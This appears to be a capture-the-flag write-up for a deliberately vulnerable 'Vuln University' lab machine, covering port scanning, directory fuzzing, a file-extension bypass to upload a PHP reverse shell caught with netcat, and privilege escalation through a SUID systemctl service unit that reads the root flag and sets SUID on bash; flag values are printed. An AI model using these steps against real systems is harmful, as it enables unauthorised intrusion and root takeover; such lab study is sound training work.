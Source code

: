 Ports Scan 
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
```

Services Scan

```
PORT     STATE SERVICE        REASON         VERSION
21/tcp   open  ftp            syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh            syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn    syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  Fetbios-:6^ syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy     syn-ack ttl 61 Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http           syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m03s, deviation: 2h53m13s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-01-23T16:57:08
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2024-01-23T11:57:08-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38501/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 48523/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60946/udp): CLEAN (Failed to receive data)
|   Check 4 (port 41451/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
```

Web fuzzing
```
/images               (Status: 301) [Size: 318] [--> http://10.10.14.45:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.14.45:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.14.45:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.14.45:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.14.45:3333/internal/]
```

/internal/
![[Pasted image 20240123140719.png]]
We tried to send a php reverse shell file and php files are blocked

we made a wordlist with 
```
.php
.php3
.php4
.php5
.phtml
```

We made a sniper attack with burpsuite to find a valid extension
 Now we know what extension we can use for our payload we can progress.We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you’ll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!

Download the following reverse PHP shell here.

To gain remote access to this machine, follow these steps:

Edit the php-reverse-shell.php file and edit the ip to be your attacker machine ip.
Rename this file to php-reverse-shell.phtml. You can do this by running:

mv php-reverse-shell.php php-reverse-shell.phtml
2. We’re now going to listen to incoming connections using netcat. Run the following command:

nc -lvnp 1234
3. Upload your shell and navigate to http://<target ip>:3333/internal/uploads/php-reverse-shell.phtml — This will execute your payload

4. You should see a connection on your netcat session


Gaining a connection!
Note: remember to shut down your Burp Suite interceptor!

Answer: No answer needed

What is the name of the user who manages the webserver?

Have a look at the home directory :)


Looking in the home directory
There is a home directory for bill here!

Answer: bill

What is the user flag?


Finding the user flag
There is a file called user.txt in bill’s home directory.

Answer: 8bd7992fbe8a6ad22a63361004cfcedb

Task 5 (Privilege Escalation)
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

Questions
On the system, search for all SUID files. What file stands out?

We can use the following command to list SUID files:

find / -user root -perm -4000 -exec ls -ldb {} \;
/bin/systemctl stands out, at it is used to control and monitor services!

Answer: /bin/systemctl

Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

We can find some more info on GTFObins:
https://gtfobins.github.io/gtfobins/systemctl/#suid

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
This is pretty complicated! What we do is creating a service, which reads the root flag and outputs it to /tmp/output. This service is saved in a variable called TF. Finally, we run the service.

Proceed by reading the /tmp/output file and you will find the key!

Answer: a58ff8579f0a9270368d33a9966c7fd5

Well… we did not get root did we now?

I just wanted you to show you a simple case first before showing you how to get root. The principle is basically the same. But instead of writing:

ExecStart=/bin/sh -c “cat /root/root.txt > /tmp/output on line 4 we write the following:

ExecStart=/bin/sh -c “chmod +s /bin/bash”

Which is similar in the way that we start up a shell, but instead of outputting the flag to a text file, we instead give ourselves execute privileges on bash.


